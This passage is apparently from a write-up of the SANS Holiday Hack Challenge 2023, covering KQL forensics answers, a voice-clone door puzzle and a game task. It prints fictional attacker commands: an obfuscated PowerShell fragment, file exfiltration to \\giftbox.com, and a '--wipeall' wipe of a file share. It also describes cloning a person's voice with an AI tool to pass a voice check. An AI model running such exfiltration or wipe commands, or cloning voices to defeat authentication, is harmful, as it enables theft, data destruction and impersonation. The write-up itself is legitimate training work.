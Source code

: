 Another payload after base64 decode decodes into:

```powershell
[StRiNg]::JoIn( '', [ChaR[]]([removed]))|& ((gv '*MDr*').NamE[3,11,2]-joiN

# According to ChatGPT
Download-File C:\Desktop\NaughtyNiceList.docx \\giftbox.com\file

# It's actually wrong, the correct answer is
downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file
```

## Case 6
We know that the attackers stole Santa's naughty or nice list. What else
happened? Can you find the final malicious command the attacker ran?

The final base64 encoded command is
`C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$`

**What is the name of the executable the attackers used in the final malicious command?**
`downwithsanta.exe`

**What was the command line flag used alongside this executable?**
`--wipeall`

## Final
To earn credit for your fantastic work, return to the Holiday Hack Challenge and
enter the secret phrase which is the result of running this query:
`print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')`

Answer: `Beware the Cube that Wombles`.

# Space Island Door Access Speaker
> There's a door that needs opening on Space Island! Talk to Jewel Loggins there
> for more information.

The secret passphrase is from `Certificate SSHenanigans`.

```
# cat InstructionsForEnteringSatelliteGroundStation.txt
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.
```

We need to upload a wav file that says the passphrase (all of that text and not
just the quote) in Wombley's voice. We have his sound in the audiobook he gave
us so we need to find an AI that can do analyze it and make a file for us.

https://play.ht/ is in the first hint for this year's holiday hack.

# Game Cartridges: Vol 1
Find the first Gamegosling cartridge and beat the game

The first one is in Tarnished Cove

It's a block move game.


[c-c]: https://developer.chrome.com/docs/devtools/application/cookies
[comb]: https://www.youtube.com/watch?v=27rE5ZvWLU0
[linux-lpe]: https://payatu.com/blog/a-guide-to-linux-privilege-escalation/
[lug]: https://www.youtube.com/watch?v=ycM1hBSEyog
[cld]: https://www.cloudflare.com/learning/email-security/dmarc-dkim-spf/
[kusto]: https://detective.kusto.io/sans2023
[clus]: https://dataexplorer.azure.com/freecluster